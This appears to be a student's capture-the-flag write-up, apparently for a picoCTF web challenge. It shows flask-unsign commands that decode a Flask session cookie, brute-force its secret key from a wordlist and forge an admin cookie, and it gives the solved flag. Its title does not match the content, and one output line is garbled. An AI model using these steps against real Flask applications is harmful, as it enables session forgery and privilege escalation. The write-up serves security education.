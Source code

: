 # where are the robots

**Flag:** `picoCTF{ca1cu1at1ng_Mach1n3s_8028f}`

Approach

- step 1<br>
For this challenge we install the flask-unsign which helps in bruteforcing the secret key for a Flask cookie.

- step 2<br>
We also pick the cookie names for the secret key from the server.py file and put them in a txt file in a vertical list format without any other characters.

- step 3<br>
Then we go to the page to the storage tab and copy the token name eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.Zyt5KA.N_zNpJvn8zKUHNx9lXG4tBmmORM to get the key.

- step 4<br>
Then we decode the signed token using the --decode arguement.

```bash
flask-unsign --decode --cookie  'eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.Zyt5KA.N_zNpJvn8zKUHNx9lXG4tBmmORM'
{'very_auth': 'blank'}
```
- step 5<br>
Then we use the brute forcer to find the secret key of the cookie.

```bash
 flask-unsign --unsign --cookie  'eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.Zyt5KA.N_zNpJvn8zKUHNx9lXG4tBmmORM' --wordlist cookies.txt
[*] Session decodes to: {'very_auth': 'blank'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'peanut butter'
```
- step 6<br>
Now since we have found the secret key we can sign the key again by giving the payload as admin instead of blank.

```bash
glaiz@glaiz-Victus-by-HP-Gaming-Laptop-15-fa0xxx:~$ flask-unsign --sign --cookie '{"very_auth": "admin"}' --secret "peanut butter"
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.ZyuNlg.h4wE3S6pVYqfx9I4lRht955HmQc
 
```


![](https://github.com/adityachawla005/cryptonite_taskphase_Aditya/raw/main/TP2/Web%20Exploitation/assets/flask.png)



What you learned through solving this challenge:
<br>
- I learnt about the concept of hashing and how a flask cookie is signed using a secret key.I also learnt about the different parts of a JWT token like payload and header.


Other incorrect methods you tried:
<br>
- Tried using Hashcat,but couldnt implement it properly due to NVIDIA CUDA issue.


References
<br>
- [Cracking a Flask Cookie](https://www.youtube.com/watch?v=hjs7XjDyycI)
